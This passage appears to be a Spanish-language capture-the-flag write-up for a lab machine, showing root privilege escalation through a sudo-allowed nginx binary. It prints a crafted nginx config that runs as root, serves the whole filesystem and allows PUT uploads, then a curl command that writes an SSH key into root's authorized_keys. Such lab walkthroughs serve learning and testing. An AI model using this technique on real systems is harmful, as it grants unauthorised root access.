 
Vamos al directorio */tmp* y vamos a crear un archivo que se llame *nginx_pwn.conf* con este contenido

```shell
user root;
worker_processes 1;
pid /tmp/nginx.pid;

events {
    worker_connections 768;
}

http {
    server {
        listen 1339;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

El archivo configura nginx para ejecutarse como root, escuchar en el puerto 1339, servir el directorio raíz `/` por HTTP, mostrar listados de carpetas y permitir subidas de archivos mediante el método PUT.

![[Broker10.png]]

Despues vamos a iniciar nginx como si fueramos sudo con la configuracion que pusimos en el archivo que creamos con el comando `sudo /usr/sbin/nginx -c /tmp/nginx_pwn.conf` 
Vamos a subir le archivo del usuario *root* al usuario *activemq* con `curl -X PUT http://localhost:1339/root/.ssh/authorized_keys -d "$(cat ~/.ssh/id_rsa.pub)"`

Ahora vamos al directorio con [[cd]] usando el comando`cd ~/.ssh`  y por ultimo nos vamos a conectar a [[ssh]] con el comando `ssh -i id_rsa root@localhost`

![[Broker11.png]]
Ya estamos conectados como root y podemos catear las flags 

![[Broker12.png]]


